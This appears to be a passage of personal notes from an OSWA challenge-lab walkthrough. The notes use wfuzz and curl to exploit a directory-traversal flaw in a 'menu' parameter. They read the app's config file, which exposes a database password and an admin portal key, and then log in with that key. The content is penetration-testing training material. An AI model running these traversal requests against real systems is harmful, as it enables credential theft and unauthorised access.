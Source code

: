 `wfuzz`
- found the path with `../`
```bash
┌──(root💀gobots)-[02Jan2025 22:45:05]-[/home/…/SUT/OSWA/challenge_labs/asio]
└─# wfuzz -w paths.txt -w files.txt --hh 0 http://asio/specials?menu=FUZZFUZ2Z
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://asio/specials?menu=FUZZFUZ2Z
Total requests: 40

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                    
=====================================================================

000000003:   200        18 L     21 W       523 Ch      "../ - config/application.properties"                                                                                                      

Total time: 0
Processed Requests: 40
Filtered Requests: 39
Requests/sec.: 0
```
now browsing to the reques tin `BURP` we are able to grab the `admin.portal.key` - 06c82a1f-892d-48de-8682-67c0c3a096b4
![[Pasted image 20250102174819.png]]
we can also do the same thing using `curl`

```bash
┌──(root💀gobots)-[02Jan2025 22:45:27]-[/home/…/SUT/OSWA/challenge_labs/asio]
└─# curl http://asio/specials?menu=../config/application.properties
# STRIGI'S PIZZA 
server.port=80
server.address=0.0.0.0
spring.web.resources.cache.cachecontrol.max-age=1d
# LOGGING
logging.file.name=logs/strigi.log
logging.level.root=WARN

# DATABASE
spring.datasource.driver-class-name=com.microsoft.sqlserver.jdbc.SQLServerDriver
spring.datasource.url=jdbc:sqlserver://127.0.0.1;databaseName=strigi

spring.datasource.username=sa
spring.datasource.password=MqFuFWUGNrR3P4bJ

spring.datasource.hikari.max-lifetime=30

# ADMIN PORTAL
admin.portal.key=06c82a1f-892d-48de-8682-67c0c3a096b4        
```
now browse to `/login` and attempt to login
![[Pasted image 20250102174957.png]]
profit
![[Pasted image 20250102175018.png]]
###### Piano Protocol (LINUX)
